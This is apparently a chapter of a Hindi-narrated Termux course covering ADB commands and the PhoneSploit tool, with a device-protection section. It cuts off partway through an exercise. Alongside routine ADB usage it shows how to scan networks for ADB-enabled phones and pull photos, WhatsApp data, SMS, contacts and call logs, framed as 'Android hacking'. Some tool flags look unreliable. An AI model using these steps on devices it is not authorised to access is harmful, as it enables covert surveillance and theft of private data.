

# Chapter 36: PhoneSploit & ADB Tools

> **Module:** 6 - Security Tools  
> **Chapter:** 36 of 61  
> **Duration:** 20-25 Minutes  
> **Difficulty:** ⭐⭐⭐ Intermediate  

---

## 📋 Chapter Overview

| Section | Content |
|---------|---------|
| Video Script | Complete Hindi narration with timestamps |
| Technical Guide | ADB fundamentals & PhoneSploit mastery |
| Installation Guide | ADB & PhoneSploit setup in Termux |
| Commands Reference | 25+ ADB and PhoneSploit commands |
| Practice Exercises | Hands-on device testing tasks |
| Troubleshooting | Common connection & permission issues |
| Video Assets | Thumbnail, description, tags |

---

## 🎬 VIDEO SCRIPT (Complete Hindi Narration)

```
═══════════════════════════════════════════════════════════════════════════════
TERMUX FULL COURSE - CHAPTER 36
Title: PhoneSploit & ADB Tools | Android Device Hacking | T3rmuxk1ng
Duration: 20-25 Minutes
═══════════════════════════════════════════════════════════════════════════════

[INTRO - 0:00 to 1:00]
─────────────────────────────────────────────────────────────────────────────

Namaskar Dosto! Welcome back to Termux Full Course by T3rmuxk1ng!

Aaj ka chapter bahut important hai - especially jo log mobile security 
aur Android hacking mein interest rakhte hain.

Aaj hum baat karenge ADB ke baare mein - Android Debug Bridge. Ye ek 
aisa tool hai jo Google ne diya hai developers ke liye, lekin hackers 
ke liye ye ek powerful weapon hai.

Aur saath mein seekhenge PhoneSploit - ek Python-based tool jo ADB ka 
use karke Android devices ko remotely access kar sakti hai - bina 
touch kiye, bina screen dekhe.

Agar aap ethical hacking seekh rahe ho, penetration testing, ya mobile 
security - ye chapter aapke liye goldmine hai.

Video like karein, subscribe karein, aur chaliye shuru karte hain!

---

[SECTION 1: ADB FUNDAMENTALS - 1:00 to 5:00]
─────────────────────────────────────────────────────────────────────────────

Sabse pehle samjhte hain - ADB kya hai?

ADB ka full form hai - Android Debug Bridge.

Ye Google ka official tool hai jo developers aur power users ko Android 
devices ke saath communicate karne deta hai.

Bridge kyun kehte hain? Kyunki ye aapke computer aur Android device 
ke beech ek bridge banata hai - communication ka bridge.

ADB se kya kya kar sakte hain?

┌─────────────────────────────────────────────────────────────────────────┐
│                        ADB CAPABILITIES                                  │
├─────────────────────────────────────────────────────────────────────────┤
│ ✓ Install aur uninstall apps                                            │
│ ✓ Files transfer karo - push aur pull                                   │
│ ✓ Screenshot aur screen recording                                       │
│ ✓ Shell access - Linux commands run karo                                │
│ ✓ Device information gather karo                                        │
│ ✓ Network debugging                                                     │
│ ✓ Logcat - system logs dekho                                            │
│ ✓ Backup aur restore                                                    │
│ ✓ Port forwarding                                                       │
│ ✓ Multiple devices manage karo                                          │
│ ✓ Remote device control                                                 │
│ ✓ App data access                                                       │
│ ✓ SMS aur contacts access (with proper permissions)                     │
└─────────────────────────────────────────────────────────────────────────┘

ADB kaam kaise karta hai?

┌─────────────────────────────────────────────────────────────────────────┐
│                        ADB ARCHITECTURE                                  │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│   ┌─────────────────┐         ┌─────────────────┐                       │
│   │   Your Device   │         │  Target Device  │                       │
│   │   (Termux/PC)   │         │    (Android)    │                       │
│   │                 │         │                 │                       │
│   │   adb client    │◄───────►│   adbd daemon   │                       │
│   └─────────────────┘   USB/  └─────────────────┘                       │
│                         WiFi                                            │
│                                                                          │
│   Connection Methods:                                                    │
│   1. USB Cable (wired)                                                  │
│   2. WiFi/Network (wireless)                                            │
│   3. TCP/IP (remote)                                                    │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘

ADB ke 3 main components hain:

1. CLIENT - Jo commands bhejta hai (aapka Termux ya PC)
2. DAEMON (adbd) - Jo device pe chalta hai aur commands receive karta hai
3. SERVER - Background process jo client aur daemon ke beech communication 
   manage karta hai

Important baat: Target device pe USB Debugging ON hona chahiye!

USB Debugging kahan hota hai?
Settings → About Phone → Tap 7 times on Build Number → Developer Options
Settings → Developer Options → USB Debugging → Enable

Bina USB Debugging enabled ke ADB kaam NAHI karega!

---

[SECTION 2: ADB INSTALLATION IN TERMUX - 5:00 to 8:00]
─────────────────────────────────────────────────────────────────────────────

Ab chaliye Termux mein ADB install karte hain.

Pehle Termux update karein:

    pkg update && pkg upgrade -y

Ab Android Tools package install karein:

    pkg install android-tools -y

Ye package ADB ke saath-saath fastboot aur other tools bhi deta hai.

Install hone ke baad verify karein:

    adb version

Output kuch aisa aana chahiye:

    Android Debug Bridge version 1.0.41
    Version 34.0.x
    Installed as /data/data/com.termux/files/usr/bin/adb

Agar version dikha raha hai - ADB successfully installed hai!

Ek aur useful tool:

    pkg install android-udev-rules -y

Ye udev rules install karta hai jo device detection better banata hai.

Ab ADB server start karein:

    adb start-server

Aur check karein devices:

    adb devices

Agar koi device connected nahi hai to output hogi:

    List of devices attached
    (empty list)

Ye normal hai - abhi hum device connect karenge.

---

[SECTION 3: ADB OVER NETWORK - 8:00 to 12:00]
─────────────────────────────────────────────────────────────────────────────

Sabse powerful feature hai - ADB over Network!

Isse aap USB cable ke bina, WiFi ke through device ko control kar sakte ho.

Lekin iske liye do methods hain:

METHOD 1: USB Se WiFi Pairing (For Android 11+)

Pehle USB cable se device connect karein.

Enable karein: Settings → Developer Options → Wireless Debugging

Ab Termux mein:

    adb tcpip 5555

Ye command device ko TCP mode mein set karta hai port 5555 pe.

Ab device ka IP address nikalein:

    adb shell ip addr show wlan0

Ya phir phone mein: Settings → About Phone → Status → IP Address

Maan lo IP address hai: 192.168.1.100

Ab connect karein:

    adb connect 192.168.1.100:5555

USB cable remove kar sakte ho - connection WiFi pe hai!

METHOD 2: Pairing Code (Android 11+)

Settings → Developer Options → Wireless Debugging → ON
Tap "Pair device with pairing code"

Aapko ek 6-digit code aur IP:Port milega.

Termux mein:

    adb pair <IP>:<pairing_port>
    Enter pairing code when prompted

Pairing ke baad:

    adb connect <IP>:<ADB_port>

Note: Pairing port aur ADB port ALAG hote hain!

METHOD 3: Same Network (Classic Method)

Dono devices same WiFi pe hona chahiye.

Target device pe USB Debugging ON hona chahiye.

Pehle USB se connect karo, phir:

    adb tcpip 5555
    adb connect <IP>:5555

Connection verify karein:

    adb devices

Output:

    List of devices attached
    192.168.1.100:5555    device

Agar "device" likha hai - connected ho!
Agar "unauthorized" hai - phone pe Allow karo!
Agar "offline" hai - reconnect karo!

---

[SECTION 4: BASIC ADB COMMANDS - 12:00 to 16:00]
─────────────────────────────────────────────────────────────────────────────

Ab hum basic ADB commands seekhte hain. Ye commands har Android hacker 
ko aani chahiye.

[DEVICE INFORMATION]

    # Connected devices list
    adb devices
    
    # Detailed device info
    adb devices -l
    
    # Device serial number
    adb get-serialno
    
    # Device state
    adb get-state
    
    # Shell access
    adb shell
    
    # Direct shell command
    adb shell <command>
    
    # Example: Get Android version
    adb shell getprop ro.build.version.release
    
    # Example: Get device model
    adb shell getprop ro.product.model
    
    # Example: Get IMEI
    adb shell service call iphonesubinfo 1

[FILE OPERATIONS]

    # Push file to device
    adb push /local/file.txt /sdcard/Download/
    
    # Pull file from device
    adb pull /sdcard/Download/file.txt /local/path/
    
    # Pull entire directory
    adb pull /sdcard/DCIM/ ./backup/
    
    # Push directory
    adb push ./myfolder/ /sdcard/

[APP MANAGEMENT]

    # List all packages
    adb shell pm list packages
    
    # List third-party apps only
    adb shell pm list packages -3
    
    # Install APK
    adb install app.apk
    
    # Install with existing data
    adb install -r app.apk
    
    # Uninstall app
    adb uninstall com.package.name
    
    # Uninstall but keep data
    adb shell pm uninstall -k --user 0 com.package.name
    
    # Clear app data
    adb shell pm clear com.package.name
    
    # App path
    adb shell pm path com.package.name

[SCREEN CAPTURE]

    # Take screenshot
    adb shell screencap -p /sdcard/screen.png
    adb pull /sdcard/screen.png
    
    # Screenshot directly to PC
    adb shell screencap -p | perl -pe 's/\x0D\x0A/\x0A/g' > screen.png
    
    # Screen recording
    adb shell screenrecord /sdcard/video.mp4
    
    # Stop recording: Ctrl+C
    
    # Pull recording
    adb pull /sdcard/video.mp4

[LOGCAT - Logs]

    # View live logs
    adb logcat
    
    # Save logs to file
    adb logcat > logs.txt
    
    # Clear logs
    adb logcat -c
    
    # Filter by tag
    adb logcat -s TAG_NAME
    
    # Filter by package
    adb logcat --pid=$(adb shell pidof com.package.name)

---

[SECTION 5: PHONESPOXIT TOOL - 16:00 to 20:00]
─────────────────────────────────────────────────────────────────────────────

Ab aata hai main attraction - PhoneSploit!

PhoneSploit ek Python-based tool hai jo ADB ka use karke Android devices 
ko remotely exploit karta hai. Ye Metasploit-style interface deta hai.

PhoneSploit kya kar sakti hai?

┌─────────────────────────────────────────────────────────────────────────┐
│                    PHONESPOXIT CAPABILITIES                              │
├─────────────────────────────────────────────────────────────────────────┤
│ ✓ Auto-connect to devices on network                                    │
│ ✓ Access phone information                                              │
│ ✓ Screenshot capture                                                    │
│ ✓ Screen recording                                                      │
│ ✓ File browser - access all files                                       │
│ ✓ Install/Uninstall apps                                                │
│ ✓ SMS reading                                                           │
│ ✓ Contacts access                                                       │
│ ✓ Call logs access                                                      │
│ ✓ Keylogger injection                                                   │
│ ✓ Clipboard access                                                      │
│ ✓ Open URLs on device                                                   │
│ ✓ Send SMS from device                                                  │
│ ✓ Make calls from device                                                │
│ ✓ Shell access                                                          │
│ ✓ Port scanning for ADB                                                 │
└─────────────────────────────────────────────────────────────────────────┘

[INSTALLATION]

Pehle dependencies install karein:

    pkg install python git -y
    pkg install android-tools -y
    pip install colorama

Ab PhoneSploit clone karein:

    git clone https://github.com/AzeemIdrisi/PhoneSploit-Pro.git

Directory mein jao:

    cd PhoneSploit-Pro

Install requirements:

    pip install -r requirements.txt

Run karein:

    python phonesploit.py

Ya agar Python 3 explicitly:

    python3 phonesploit.py

[PHONEPOSPLOT INTERFACE]

Jab aap PhoneSploit run karoge, aapko ek menu milega:

    ╔══════════════════════════════════════════════════════════════╗
    ║                    PHONESPOXIT-PRO                           ║
    ╠══════════════════════════════════════════════════════════════╣
    ║  1. Connect Device                                            ║
    ║  2. Disconnect Device                                         ║
    ║  3. Access Connected Device                                   ║
    ║  4. Scan Network for Devices                                  ║
    ║  5. Access Device Shell                                       ║
    ║  6. Get Device Info                                          ║
    ║  7. Install APK                                               ║
    ║  8. Screen Record                                             ║
    ║  9. Screenshot                                                ║
    ║  10. Pull Files                                               ║
    ║  11. Push Files                                               ║
    ║  12. Get SMS                                                  ║
    ║  13. Get Contacts                                             ║
    ║  14. Get Call Logs                                            ║
    ║  15. Open URL                                                 ║
    ║  16. Send SMS                                                 ║
    ║  17. Exit                                                     ║
    ╚══════════════════════════════════════════════════════════════╝

[CONNECTING TO DEVICE]

Option 1 select karein - Connect Device

Enter IP address: 192.168.1.100
Port: 5555

Ya scan karein network se:

Option 4 - Scan Network for Devices

Ye aapke network pe ADB enabled devices scan karega.

[INFORMATION GATHERING]

Option 6 - Get Device Info

Ye device ki complete information nikalega:
- Model
- Android Version
- IMEI
- MAC Address
- Battery status
- Storage info
- And more...

[FILE ACCESS]

Option 10 - Pull Files

Aap koi bhi file device se pull kar sakte ho:
- /sdcard/DCIM/ - Photos
- /sdcard/Download/ - Downloads
- /sdcard/WhatsApp/ - WhatsApp data
- /sdcard/Telegram/ - Telegram data

Option 11 - Push Files

Koi bhi file device pe push kar sakte ho.

[SMS & CONTACTS]

Option 12 - Get SMS

Saari SMS messages nikalega - inbox, sent, drafts.

Option 13 - Get Contacts

Phonebook ka complete data.

Option 14 - Get Call Logs

Call history with duration, time, number.

⚠️ WARNING: Ye features ke liye target device pe READ_CONTACTS, 
READ_SMS permissions chahiye hote hain specific apps ke liye, ya 
phir ROOT access chahiye hota hai. Normal ADB access mein ye 
restricted ho sakte hain.

---

[SECTION 6: SECURITY IMPLICATIONS & PROTECTION - 20:00 to 23:00]
─────────────────────────────────────────────────────────────────────────────

Ab bahut important topic - Security!

ADB powerful tool hai, lekin ye security risk bhi hai.

┌─────────────────────────────────────────────────────────────────────────┐
│                    ADB SECURITY RISKS                                    │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  1. UNAUTHORIZED ACCESS                                                  │
│     - Agar USB Debugging ON hai aur screen unlock hai                   │
│     - Koi bhi aapka phone connect karke data access kar sakta hai       │
│                                                                          │
│  2. WIRELESS ADB RISKS                                                   │
│     - ADB over WiFi without authentication                               │
│     - Same network pe koi bhi connect ho sakta hai                       │
│     - Man-in-the-middle attacks possible                                │
│                                                                          │
│  3. DATA THEFT                                                           │
│     - Files accessible via ADB                                           │
│     - Photos, documents, downloads                                       │
│     - WhatsApp, Telegram folders                                         │
│                                                                          │
│  4. MALWARE INSTALLATION                                                 │
│     - Malicious APKs install kar sakte hain                              │
│     - Spyware, keyloggers, RATs                                          │
│                                                                          │
│  5. PRIVACY BREACH                                                       │
│     - SMS reading                                                        │
│     - Contacts access                                                    │
│     - Call logs                                                          │
│     - Location history                                                   │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘

[HOW TO PROTECT YOUR DEVICE]

Apne device ko protect kaise karein?

✓ USB Debugging OFF rakho jab need na ho

Settings → Developer Options → USB Debugging → OFF

✓ Wireless Debugging OFF rakho

Settings → Developer Options → Wireless Debugging → OFF

✓ Developer Options hide karo

Settings → Developer Options → Disable

✓ USB Debugging Authorization manage karo

Jab koi new PC connect kare, popup aata hai "Allow USB debugging?"
- "Always allow from this computer" CHECK NA KARO
- Sirf "Allow" karo
- Aur baad mein revoke karo:
  Settings → Developer Options → Revoke USB debugging authorizations

✓ Screen Lock use karo

Strong PIN/Password/Pattern use karo.
ADB works only when device is unlocked OR with authorized PC.

✓ Unknown Apps disable karo

Settings → Security → Unknown Sources → OFF
Ya per-app basis pe allow karo.

✓ Regular Security Audit

Installed apps check karo.
Unknown apps ko uninstall karo.

✓ Use ADB over TLS (Android 11+)

Wireless Debugging use karo jo pairing ke baad hi connect hota hai.

✓ Network Isolation

Public WiFi pe ADB enable mat rakho.
Same network pe attackers scan kar sakte hain.

┌─────────────────────────────────────────────────────────────────────────┐
│                    SECURITY CHECKLIST                                    │
├─────────────────────────────────────────────────────────────────────────┤
│ ☐ USB Debugging OFF when not needed                                     │
│ ☐ Wireless Debugging OFF when not needed                                │
│ ☐ Revoke old ADB authorizations                                         │
│ ☐ Strong screen lock enabled                                            │
│ ☐ Unknown sources disabled                                              │
│ ☐ Regular app audit                                                     │
│ ☐ Developer options hidden when not needed                              │
└─────────────────────────────────────────────────────────────────────────┘

---

[SECTION 7: SUMMARY & NEXT PREVIEW - 23:00 to 25:00]
─────────────────────────────────────────────────────────────────────────────

To dosto, Chapter 36 complete! Let's summarize:

✅ ADB kya hai - Android Debug Bridge, Google ka official tool
✅ ADB installation - Termux mein android-tools package
✅ ADB over network - USB ke bina wireless connection
✅ Basic commands - devices, shell, push, pull, install
✅ PhoneSploit - Python tool for Android exploitation
✅ Features - info gathering, file access, SMS, contacts
✅ Security risks - unauthorized access, data theft
✅ Protection tips - Debugging OFF, revoke authorizations

Important Commands yaad rakhein:

┌─────────────────────────────────────────────────────────────────────────┐
│                    CHAPTER 36 - IMPORTANT COMMANDS                       │
├─────────────────────────────────────────────────────────────────────────┤
│ adb devices                    │ List connected devices                 │
│ adb connect IP:PORT            │ Connect over network                   │
│ adb shell                      │ Access device shell                   │
│ adb push/pull                  │ File transfer                         │
│ adb install/uninstall          │ App management                        │
│ adb shell screencap            │ Screenshot capture                    │
│ adb shell screenrecord         │ Screen recording                      │
│ adb logcat                     │ System logs                           │
│ python phonesploit.py          │ Run PhoneSploit                       │
└─────────────────────────────────────────────────────────────────────────┘

Next Chapter 37 mein hum seekhenge:
- Social Engineering Toolkit (SET)
- Phishing attacks kaise work karte hain
- Fake login pages create karna
- Credential harvesting
- Attack detection aur prevention

Agar ye video helpful lagi, to:
👍 Like button press karein
🔔 Subscribe karein, notification bell on karein
💬 Koi sawal ho to comment mein poochein
📤 Share karein friends ke saath

Main har comment ka reply karta hoon.

Thank you for watching! See you in Chapter 37!

═══════════════════════════════════════════════════════════════════════════════
```

---

## 📖 TECHNICAL GUIDE

### 1. ADB Architecture Deep Dive

```
┌─────────────────────────────────────────────────────────────────────────┐
│                        ADB ARCHITECTURE                                  │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│   CLIENT SIDE                    │         SERVER SIDE                   │
│   (Your Device)                  │         (Target Device)               │
│                                  │                                       │
│   ┌──────────────┐               │         ┌──────────────┐             │
│   │  adb command │               │         │   adbd       │             │
│   │  (binary)    │               │         │   (daemon)   │             │
│   └──────┬───────┘               │         └──────┬───────┘             │
│          │                       │                │                      │
│   ┌──────▼───────┐               │         ┌──────▼───────┐             │
│   │  adb server  │◄──────────────┼────────►│  TCP 5555    │             │
│   │  (background)│    USB/TCP    │         │  (ADB port)  │             │
│   └──────────────┘               │         └──────────────┘             │
│                                  │                                       │
│   Communication Protocol:                                                 │
│   ┌─────────────────────────────────────────────────────────────────┐   │
│   │  Command Block:                                                 │   │
│   │  - 4 bytes: command ID                                          │   │
│   │  - 4 bytes: data length                                         │   │
│   │  - N bytes: data payload                                        │   │
│   └─────────────────────────────────────────────────────────────────┘   │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

### 2. ADB Connection Methods

| Method | Port | Requirements | Use Case |
|--------|------|--------------|----------|
| USB | N/A | USB Cable, USB Debugging ON | Development, Recovery |
| TCP/IP | 5555 | WiFi, tcpip command | Wireless debugging |
| Pairing (Android 11+) | Random | Pairing code | Secure wireless |
| ADB over Network | 5555 | Root or init.d script | Remote access |

### 3. PhoneSploit Workflow

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    PHONESPOXIT WORKFLOW                                  │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│   ┌─────────────┐     ┌─────────────┐     ┌─────────────┐              │
│   │   Start     │────►│   Scan      │────►│   Connect   │              │
│   │ PhoneSploit │     │   Network   │     │   Device    │              │
│   └─────────────┘     └─────────────┘     └──────┬──────┘              │
│                                                   │                      │
│                    ┌──────────────────────────────┘                      │
│                    │                                                     │
│                    ▼                                                     │
│   ┌────────────────────────────────────────────────────────────────┐    │
│   │                     EXPLOIT OPTIONS                             │    │
│   ├────────────────────────────────────────────────────────────────┤    │
│   │                                                                │    │
│   │  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐         │    │
│   │  │ Information  │  │    Files     │  │   Media      │         │    │
│   │  │   Gathering  │  │   Access     │  │   Capture    │         │    │
│   │  └──────────────┘  └──────────────┘  └──────────────┘         │    │
│   │                                                                │    │
│   │  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐         │    │
│   │  │     SMS      │  │   Contacts   │  │   Apps       │         │    │
│   │  │   Access     │  │   Access     │  │   Install    │         │    │
│   │  └──────────────┘  └──────────────┘  └──────────────┘         │    │
│   │                                                                │    │
│   └────────────────────────────────────────────────────────────────┘    │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

### 4. ADB Device States

| State | Description | Action Required |
|-------|-------------|-----------------|
| `device` | Connected and authorized | Ready to use |
| `unauthorized` | Not authorized on device | Accept on phone screen |
| `offline` | Device not responding | Reconnect or restart adb |
| `bootloader` | In bootloader mode | Use fastboot commands |
| `recovery` | In recovery mode | Limited commands available |
| `sideload` | In sideload mode | Use sideload command |

### 5. Important File Paths on Android

| Path | Content | Accessibility |
|------|---------|---------------|
| `/sdcard/` | Internal storage root | Full access via ADB |
| `/sdcard/DCIM/` | Camera photos | Full access |
| `/sdcard/Download/` | Downloads | Full access |
| `/sdcard/WhatsApp/` | WhatsApp data | Full access |
| `/sdcard/Telegram/` | Telegram data | Full access |
| `/data/data/` | App private data | Root required |
| `/data/app/` | Installed APKs | Root required |
| `/system/` | System files | Root required |
| `/proc/` | Process info | Partial access |
| `/sys/` | System info | Partial access |

---

## 🔧 INSTALLATION GUIDE

### ADB Installation

```bash
# Step 1: Update Termux
pkg update && pkg upgrade -y

# Step 2: Install Android Tools
pkg install android-tools -y

# Step 3: Verify installation
adb version

# Step 4: Start ADB server
adb start-server

# Step 5: Check for devices
adb devices
```

### PhoneSploit Installation

```bash
# Step 1: Install dependencies
pkg install python git -y
pkg install android-tools -y

# Step 2: Install Python packages
pip install colorama requests

# Step 3: Clone PhoneSploit
git clone https://github.com/AzeemIdrisi/PhoneSploit-Pro.git

# Step 4: Navigate to directory
cd PhoneSploit-Pro

# Step 5: Install requirements
pip install -r requirements.txt

# Step 6: Run PhoneSploit
python phonesploit.py
```

### Alternative: PhoneSploit from Other Sources

```bash
# Original PhoneSploit (may be outdated)
git clone https://github.com/metachar/PhoneSploit.git
cd PhoneSploit
python phonesploit.py

# PhoneSploit-Pro (recommended, more features)
git clone https://github.com/AzeemIdrisi/PhoneSploit-Pro.git
```

---

## 📋 COMMANDS REFERENCE

### ADB Device Management Commands

```bash
# List connected devices
adb devices

# List devices with details
adb devices -l

# Get device serial number
adb get-serialno

# Get device state
adb get-state

# Connect to device over network
adb connect 192.168.1.100:5555

# Disconnect device
adb disconnect 192.168.1.100:5555

# Disconnect all devices
adb disconnect

# Kill ADB server
adb kill-server

# Start ADB server
adb start-server

# Restart ADB server
adb kill-server && adb start-server

# Pair device (Android 11+)
adb pair 192.168.1.100:37123
```

### ADB Shell Commands

```bash
# Enter interactive shell
adb shell

# Run single command
adb shell ls /sdcard/

# Get Android version
adb shell getprop ro.build.version.release

# Get device model
adb shell getprop ro.product.model

# Get device brand
adb shell getprop ro.product.brand

# Get device manufacturer
adb shell getprop ro.product.manufacturer

# Get CPU info
adb shell cat /proc/cpuinfo

# Get memory info
adb shell cat /proc/meminfo

# List all installed packages
adb shell pm list packages

# List third-party packages only
adb shell pm list packages -3

# Get package path
adb shell pm path com.example.app

# Clear app data
adb shell pm clear com.example.app

# Force stop app
adb shell am force-stop com.example.app

# Start app activity
adb shell am start -n com.example.app/.MainActivity

# Take screenshot
adb shell screencap -p /sdcard/screen.png

# Start screen recording
adb shell screenrecord /sdcard/video.mp4

# Get battery info
adb shell dumpsys battery

# Get WiFi info
adb shell dumpsys wifi

# List running processes
adb shell ps

# Get process ID
adb shell pidof com.example.app
```

### ADB File Transfer Commands

```bash
# Push file to device
adb push local_file.txt /sdcard/Download/

# Push directory to device
adb push ./local_dir/ /sdcard/target_dir/

# Pull file from device
adb pull /sdcard/Download/file.txt ./

# Pull directory from device
adb pull /sdcard/DCIM/ ./photos_backup/

# Pull all files from path
adb pull /sdcard/ ./full_backup/

# Sync files (push only changed)
adb sync /sdcard/

# List files on device
adb shell ls -la /sdcard/

# Create directory on device
adb shell mkdir /sdcard/new_folder/

# Remove file on device
adb shell rm /sdcard/file.txt

# Remove directory recursively
adb shell rm -rf /sdcard/folder/
```

### ADB App Management Commands

```bash
# Install APK
adb install app.apk

# Install APK with existing data (reinstall)
adb install -r app.apk

# Install APK with downgrade
adb install -d app.apk

# Install APK to SD card
adb install -s app.apk

# Install multiple APKs (split APK)
adb install-multiple base.apk config.apk

# Uninstall app
adb uninstall com.example.app

# Uninstall but keep data and cache
adb shell pm uninstall -k --user 0 com.example.app

# Disable app (system app)
adb shell pm disable-user com.example.app

# Enable app
adb shell pm enable com.example.app

# Hide app (without root)
adb shell pm hide com.example.app

# Unhide app
adb shell pm unhide com.example.app

# Grant permission
adb shell pm grant com.example.app android.permission.CAMERA

# Revoke permission
adb shell pm revoke com.example.app android.permission.CAMERA

# List all permissions
adb shell pm list permissions

# Dump app info
adb shell dumpsys package com.example.app
```

### ADB Network & Port Forwarding

```bash
# Enable TCP mode on device
adb tcpip 5555

# Enable USB mode
adb usb

# Forward local port to device port
adb forward tcp:8080 tcp:80

# Forward local port to device socket
adb forward tcp:9000 localabstract:unix_socket

# List forwarded ports
adb forward --list

# Remove forward
adb forward --remove tcp:8080

# Remove all forwards
adb forward --remove-all

# Reverse forward (device to local)
adb reverse tcp:8080 tcp:80

# List reverse forwards
adb reverse --list

# Remove reverse
adb reverse --remove tcp:8080

# Get device IP
adb shell ip addr show wlan0

# Ping from device
adb shell ping -c 4 google.com
```

### ADB Backup & Restore

```bash
# Full backup (user interaction required on device)
adb backup -apk -shared -all -f backup.ab

# Backup specific app
adb backup -apk com.example.app -f app_backup.ab

# Backup app with APK
adb backup -apk -obb com.example.app -f full_backup.ab

# Restore backup
adb restore backup.ab

# Pull app data (root required)
adb pull /data/data/com.example.app/

# Push app data (root required)
adb push ./app_data/ /data/data/com.example.app/
```

### ADB Logging & Debugging

```bash
# View live logs
adb logcat

# Save logs to file
adb logcat > logs.txt

# Clear log buffer
adb logcat -c

# View logs for specific app
adb logcat --pid=$(adb shell pidof com.example.app)

# Filter by tag
adb logcat -s TAG_NAME:V

# Filter by priority
adb logcat *:E  # Errors only
adb logcat *:W  # Warnings and above
adb logcat *:D  # Debug and above

# View kernel logs
adb shell dmesg

# View last kernel messages
adb shell dmesg | tail -50

# Bug report
adb bugreport > bug_report.zip
```

### ADB Screenshot & Screen Recording

```bash
# Take screenshot to device
adb shell screencap -p /sdcard/screenshot.png

# Pull screenshot
adb pull /sdcard/screenshot.png

# Screenshot directly to computer (one-liner)
adb shell screencap -p | perl -pe 's/\x0D\x0A/\x0A/g' > screenshot.png

# Alternative for screenshot
adb exec-out screencap -p > screenshot.png

# Start screen recording
adb shell screenrecord /sdcard/video.mp4

# Record with time limit (180 seconds max)
adb shell screenrecord --time-limit 60 /sdcard/video.mp4

# Record with specific resolution
adb shell screenrecord --size 1280x720 /sdcard/video.mp4

# Record with bit rate
adb shell screenrecord --bit-rate 8000000 /sdcard/video.mp4

# Pull recording
adb pull /sdcard/video.mp4

# Display device screen info
adb shell dumpsys window displays
```

### ADB Input & Events

```bash
# Simulate tap
adb shell input tap 500 500

# Simulate swipe
adb shell input swipe 100 500 500 500 300

# Simulate text input
adb shell input text "Hello"

# Simulate key event
adb shell input keyevent KEYCODE_HOME
adb shell input keyevent 3  # HOME
adb shell input keyevent 4  # BACK
adb shell keyevent 26  # POWER
adb shell input keyevent 24  # VOLUME UP
adb shell input keyevent 25  # VOLUME DOWN

# Send broadcast
adb shell am broadcast -a android.intent.action.BOOT_COMPLETED

# Start service
adb shell am startservice com.example.app/.MyService

# Open URL
adb shell am start -a android.intent.action.VIEW -d https://google.com

# Open app
adb shell monkey -p com.example.app 1
```

### ADB Multiple Device Commands

```bash
# List all devices
adb devices

# Direct command to specific device
adb -s <serial> shell

# Direct command to USB device
adb -d shell

# Direct command to TCP/IP device
adb -e shell

# Install to specific device
adb -s <serial> install app.apk

# Pull from specific device
adb -s <serial> pull /sdcard/file.txt
```

### ADB Reboot & Recovery

```bash
# Reboot device
adb reboot

# Reboot to recovery
adb reboot recovery

# Reboot to bootloader
adb reboot bootloader

# Reboot to fastboot
adb reboot-bootloader

# Reboot to download mode (Samsung)
adb reboot download

# Reboot to EDL mode (some devices)
adb reboot edl

# Sideload in recovery
adb sideload update.zip
```

### PhoneSploit Commands

```bash
# Run PhoneSploit
python phonesploit.py

# Inside PhoneSploit menu:
# Option 1: Connect to device
# Option 2: Disconnect device  
# Option 3: Access connected device
# Option 4: Scan network for devices
# Option 5: Access device shell
# Option 6: Get device info
# Option 7: Install APK
# Option 8: Screen record
# Option 9: Screenshot
# Option 10: Pull files
# Option 11: Push files
# Option 12: Get SMS
# Option 13: Get contacts
# Option 14: Get call logs
# Option 15: Open URL
# Option 16: Send SMS
# Option 17: Exit

# Network scanning for ADB devices
python phonesploit.py --scan 192.168.1.0/24

# Auto-connect to discovered devices
python phonesploit.py --auto-connect
```

---

## 💻 PRACTICE EXERCISES

### Exercise 1: ADB Setup and Connection

```bash
# Task: Set up ADB and connect to a device

# Step 1: Install ADB
pkg install android-tools -y

# Step 2: Verify installation
adb version

# Step 3: Start server
adb start-server

# Step 4: Connect device via USB
# Enable USB Debugging on target device first
# Connect USB cable
adb devices

# Step 5: Authorize connection on device
# Tap "Allow" on the popup

# Step 6: Verify connection
adb devices
# Should show: <serial> device

# Step 7: Get device info
adb shell getprop ro.product.model
